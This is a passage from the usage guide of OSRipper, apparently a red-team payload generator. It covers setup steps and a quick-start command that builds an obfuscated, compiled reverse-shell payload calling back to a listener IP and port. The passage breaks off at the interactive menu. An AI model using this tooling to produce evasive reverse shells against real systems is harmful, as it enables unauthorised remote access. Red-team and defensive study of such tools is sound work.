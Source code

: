 # OSRipper Usage Guide

This comprehensive guide covers all aspects of using OSRipper v0.3.1 for payload generation and red team operations.

## Table of Contents

- [Quick Start](#quick-start)
- [Interactive Mode](#interactive-mode)
- [Command Line Interface](#command-line-interface)
- [Configuration](#configuration)
- [Payload Types](#payload-types)
- [Advanced Features](#advanced-features)
- [Best Practices](#best-practices)
- [Troubleshooting](#troubleshooting)

## Quick Start

### Basic Usage

1. **Interactive Mode (Recommended for beginners)**
   ```bash
   sudo python3 main.py
   ```

2. **Command Line Mode (Advanced users)**
   ```bash
   python3 cli.py reverse -h 192.168.1.100 -p 4444 --obfuscate --compile
   ```

### First Time Setup

1. Install dependencies:
   ```bash
   pip3 install -r requirements.txt
   ```

2. Run setup script:
   ```bash
   sudo python3 setup.py
   ```

3. Create configuration file:
   ```bash
   python3 config.py --create-sample
   ```

## Interactive Mode

The interactive mode provides a user-friendly menu system for payload generation.

### Menu Options

